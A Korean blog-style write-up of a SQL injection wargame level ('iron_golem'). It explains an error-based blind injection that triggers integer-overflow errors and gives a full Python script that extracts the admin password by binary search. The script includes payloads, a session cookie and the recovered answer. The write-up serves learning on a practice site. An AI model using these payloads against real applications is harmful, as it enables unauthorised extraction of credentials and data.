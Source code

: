 

# [21] iron_golem

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcPwCAb%2FbtrnN2IAMBF%2FDQ6Tb1nf7xL43zwK3VJjqk%2Fimg.png">

## 풀이

solve 조건은 admin 계정의 pw를 알아내는 것이다.

<br> 

preg_match를 살펴보면 sleep과 benchmark를 필터링하고 있다.

두 함수 모두 Time Based Blind SQLi에 쓰이는 함수다.

.과 _등을 함께 필터링하므로 헤비쿼리도 사용이 불가능하다.

Timed Based로 접근하기 위한 방법이 모두 막혔으므로, 다른 방식으로 푸는 문제임을 유추할 수 있다.

* 헤비쿼리 : information_schema.columns 등을 여러개 join시켜 내부 데이터를 왕창 읽어들임으로써 시간을 지연시키는 방법이다.

<br> 

또한 지금까지의 문제들처럼 쿼리의 실행 결과를 보여주는 대신, 에러 발생 시 에러 메시지를 보여주고 있다.

* Hello {$result[id]} → mysqli_error($db)

<br> 

이러한 점들로 미루어 보아, **Error Based**로 접근해야하는 문제임을 짐작할 수 있다.

Timed Based나 Error Based에 대해 제대로 공부해본 적이 없었기 때문에 여기까지 결론을 내리는데 많은 시간이 소요되었다...

<br> 

고의적으로 에러를 발생시키는 방법에는 여러가지가 있다.

* 이 때, 발생시켜야하는 에러는 Syntax Error가 아닌 Runtime Error이다.

<br> 

그 중 개인적으로 가장 간단하다고 생각한 방법인 **큰 수 연산**을 통해 문제를 해결해보았다.

말 그대로, Integer 범위를 초과하는 과도한 연산을 요청함으로써 에러를 발생시키는 방법이다.

<br> 

먼저, 과도하게 큰 수의 연산을 요청했을 시의 에러 메시지의 내용을 확인해본다.

<br> 

다음은 pw의 페이로드로 **' or 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF** 를 주었을 시의 에러 메시지의 내용이다.

<br>

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcV5YE2%2FbtrnHQ9Yybo%2FRNhtCVTKtlnkiJ43qeGg8k%2Fimg.png">

<br>

위 에러 메시지 내용의 일부를 키워드로 활용하여 자동화 코드를 짜면 된다.

나는 **out of range**를 선택했다.

- res.text에 out of range가 포함되어있을 시 에러가 발생한 것으로 판별한다.

<br> 

pw의 길이를 찾았을 시 에러를 발생시키기 위한 페이로드의 예시는 다음과 같다.

```python
param=f"?pw=' or id='admin' and if(length(pw)={num}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) %23"
```

이후 완전한 pw를 찾는 방법도 동일한 로직을 사용한다.

특정 인덱스의 아스키를 찾았을 시 에러를 발생시켜주면 된다.

<br> 

또한 이번 문제에서도 검색 속도를 높이기 위해 2진 탐색을 적용해준다.

<br>

**LoS 21번 Python 자동화 코드**이다.

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php"
    cookie = "dfksep8hnmequ6sm0qe1iu65pa"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 21을 시작합니다")

for num in range(0,100):
    param=f"?pw=' or id='admin' and if(length(pw)={num}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) %23"
    if("out of range" in send(param)):
        print(f"👏 pw의 길이는 {num}입니다!")
        break

ans=""

for len in range(1, num+1):
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        param=f"?pw=' or id=\"admin\" and if(ascii(substr(pw,{len},1))>={middle}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) %23"
        if("out of range" in send(param)):
            param=f"?pw=' or id=\"admin\" and if(ascii(substr(pw,{len},1))={middle}, 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) %23"
            if("out of range" in send(param)):
                print(f"{len}번째 문자 → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue

print(f"👏 pw의 정체는 [{ans}]입니다!")
```

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FlzbFA%2FbtrnR3lVWQ4%2FOP9KfPRWEIVTnk5vlbLbG1%2Fimg.png">

Blind 공격 결과, pw는 `06b5a6c16e8830475f983cc3a825ee9a` 임을 확인할 수 있다.


## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbvUIOy%2FbtrnHSz1mvI%2FmWvA84g3zRa4OBEfXhTkj1%2Fimg.png">